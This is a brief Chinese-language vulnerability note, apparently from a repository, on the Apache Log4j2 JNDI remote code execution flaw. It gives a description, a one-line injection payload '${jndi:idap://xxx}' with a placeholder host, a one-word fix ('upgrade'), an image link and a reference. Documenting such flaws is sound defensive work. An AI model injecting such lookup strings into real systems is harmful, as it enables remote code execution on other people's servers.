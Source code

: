 ### 一 漏洞描述
Apache Log4j2是一款开源的Java日志框架，被广泛地应用在中间件、开发框架与Web应用中，用来记录日志信息。  
由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特别构造的数据请求包，可在目标服务器上执行任意代码。

### 二 漏洞利用
```
${jndi:idap://xxx}
```

### 三 漏洞修复
升级

### 四 漏洞分析
![img.png](img.png)

> 参考链接  
> 绿盟预警: http://blog.nsfocus.net/apache-log4j-cve-2021-44228/
